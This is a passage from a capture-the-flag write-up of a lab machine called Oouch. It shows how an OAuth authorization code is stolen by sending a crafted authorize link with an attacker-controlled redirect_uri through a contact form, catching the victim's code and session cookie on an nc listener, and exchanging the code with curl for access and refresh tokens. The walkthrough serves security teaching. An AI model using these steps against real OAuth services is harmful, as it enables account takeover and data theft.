 
<a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&state=&allow=Authorize">click me</a>
About a minute after sending this through the contact form, someone clicks on it from Oouch, and this request comes back:

root@kali# nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 45972
GET /token?code=9a5Q0yBlx7ONDslRKGlulr6a7i8vOM HTTP/1.1
Host: 10.10.14.6
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=0wlwoshe5nbpgmgw7357g0a9fgq4xowx;
What just happened? I sent a link that when clicked on started the person who clicked in the process of telling the authentication server that they wanted my application to get access to their data on the authorization server, with the request marked in red below. What comes back to my nc listener is the client’s browser being redirected to my application with the request marked in green:

imgClick for full size image

I did notice that a PHP session cookie was included in that request. This makes no sense to me, but I’ll look at it in Beyond Root.

Request Access Token
When the client sends me the authorization_code, I can use that to request an access_token.

I’ll use curl to send the request with the client_id, client_secret, and grant_type from my application (the secret and id are different from the image above because I had to re-register to update this post), the redirect_uri , and the code (pipped into jq to make the result more readable):

root@kali# curl http://authorization.oouch.htb:8000/oauth/token/ -d 'client_id=HTGoodnXs4IMOYhJzfss3JmF7m64bQHkoPwZOghy&client_secret=5MUCcGC9TlHJOWqmT2qJjqxKHHIzdGKE8PKqoIOgfhecIUPjoSTnxhWdNWI4BgqLb2yMcnq1N5viFgArgkd6PSWWxfJLPsxYP0kAgAS6AmoF9gNFVO56jymUpcnBYunm&redirect_uri=http://10.10.14.6/token&code=Yv0c6OXDFGhpMJ2nqvDTbMVcOfo3Si&grant_type=authorization_code' | jq .
{
  "access_token": "gm05wp2kDWhSmS3QrZmdEqgvFGoEKD",
  "expires_in": 600,
  "token_type": "Bearer",
  "scope": "read",
  "refresh_token": "lGaAVRyhTybjuiRrF8SVPgiSNXR9Bk"
}
It is worth noting the expires_in value of ten minutes. I lost some time enumerating the API when the token expired and I didn’t realize it. I can use the refresh_token to request a new access_token (I’ll leave that as an exercise for the reader).

SSH as qtc
get_user
I still have the hint about /api/get_user, and it makes sense now that I have an access_token to access qtc’s data. I was able to find the API pretty easily at authorization.oouch.htb:8000/api/get_user. In a browser, it just returns a blank page. In Burp, I see it’s a 403:
